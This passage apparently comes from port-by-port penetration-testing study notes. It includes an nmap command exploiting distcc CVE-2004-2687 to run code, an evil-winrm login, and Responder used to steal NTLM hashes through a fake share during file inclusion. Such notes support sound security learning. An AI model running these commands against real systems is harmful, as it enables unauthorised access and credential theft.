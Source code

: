 Check if it's vulnerable to **CVE-2004-2687** to execute arbitrary code:

```bash
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```

### 5000 - Docker Registry

#### Generalities

- Purpose:

  Docker images are organized within **Docker repositories** in the registry, each repository storing various versions of a specific image. The functionality provided allows for images to be downloaded  locally or uploaded to the registry, assuming the user has the necessary permissions.

### 5985-6 - WINRM

#### Generalities

- **Type:** Authentication 
- Purpose:
  - remote management protocol based on the command line.
  - WinRM must be explicitly enabled and configured starting with Windows 10
  - Windows Remote Shell (`WinRS`), which lets us execute arbitrary commands on the remote system. The program is included on Windows 7 by default. 
- Structure:
  - WinRM relies on `TCP` ports `5985` and `5986` for communication, with the last port `5986 using HTTPS`, as ports 80 and 443 were previously used for this task. 
  - In general, it only works for active directories

#### Interaction

 [evil-winrm](https://github.com/Hackplayers/evil-winrm) to log in

```bash
evil-wirm -i [IP] -u [USER] -p [PASSWD]
```

#### Exploit

The password is stored as an hash,  one-way function that takes any amount of data and returns a fixed size value.

Use responder to attack it: 

```
sudo responder -I tun0 -w -d 
```

it creates a fake shared folder in your network, that if it interacts with the attacked ip (e.g. through the parameter of a web page), will steal the password as an Hash.

The responder IP has to be loaded as a shared folder, i.e. `//<IP>/somefile`, if we want to do RFI.

### 3306 - MySQL
